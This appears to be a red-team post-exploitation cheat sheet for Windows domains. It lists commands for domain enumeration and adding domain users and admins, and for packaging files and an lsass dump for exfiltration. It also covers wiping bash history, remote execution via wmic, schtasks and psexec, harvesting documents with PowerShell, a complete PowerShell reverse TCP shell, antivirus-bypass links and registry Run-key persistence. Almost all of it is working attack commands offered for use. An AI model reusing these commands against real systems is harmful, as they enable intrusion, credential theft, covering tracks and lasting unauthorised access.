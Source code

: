 # scan



# Domain control
```command
net user
net user /domain
net group /domain
net view /domain
net group "domain admins" /domain
net localgroup administrators /domain
net user username password /add /domain
net time /domain
net view /domain
net localgroup administrators workgroup\test123 /add
net group "domain controllers" /domain

dsquery computer
dsquery contact
dsquery group
dsquery user
dsquery subnet
dsquery server
```

# information package
7z.exe -r -v6m -padmin a c:\test.7z C:\AppServ\www\import*.*
7z.exe x -padmin test.7z.001 -oc:\xl

Rar.exe a -r -v6m -padmin -m3 -x*.txt -ta c:\test.rar C:\AppServ\www\import*.*
Rar.exe x -padmin c:\test.part01.rar c:\xl

makecab /d compressiontype=lzx C:\Users\lsass.txt C:\Users\lsass.cab >> C:\Users\info.txt
expand.exe lsass.cab -f:* .

# log clear
wc -l ~/.bash_history
sed -i '73,$d' ~/.bash_history
tail -10f ~/.bash_history

# remote execute
wmic /node:192.168.1.1 /user:administrator /password:"passwd" /namespace:\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
wmic /node:192.168.1.1 /user:administrator /password:"passwd" os get Caption,OSArchitecture,Version
wmic /node:192.168.1.1 /user:administrator /password:"passwd" product list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" startup list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process where name="test.exe" call terminate

schtasks /create /s 172.10.1.1 /u administrator /p "passwd" /ru SYSTEM /tn test /sc DAILY /tr "C:\Users\hacker.exe -a -b c" /F & schtasks /run /s 172.10.1.1 /u administrator /p "passwd" /tn test /i & schtasks /delete /s 172.10.1.1 /u administrator /p "passwd" /tn test /f
python psexec.py test:passwdtest@10.10.1.1 cmd
python wmiexec.py test:passwdtest@10.10.1.1
Psexec.exe \\10.10.1.1 -u test -p passwdtest cmd

# powershell
change file time
powershell.exe -command "Get-ChildItem -Path C:\ -Recurse –Include .txt,.doc,.xls,.pdf,.ppt,.docx,.xlsx,.pptf,.csv,.lnk | Where-Object { $.LastWriteTime -ge '02/01/2019 00:00:00' -AND $.LastWriteTime -le '10/27/2022 00:00:00'} | Copy-Item -Force -Destination C:\Users"

write file
powershell.exe -command "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("......")) | Set-Content testfoo.txt"

## reverse tcp shell
nc -lvp 6666

powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.10.139',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


# BypassAV
https://github.com/TideSec/BypassAntiVirus
https://github.com/clinicallyinane/shellcode_launcher/
https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html


# Persistence
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /f /v test /t REG_SZ /d "rundll32.exe "C:\Users\test\test.dll" Test"
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "test" /f
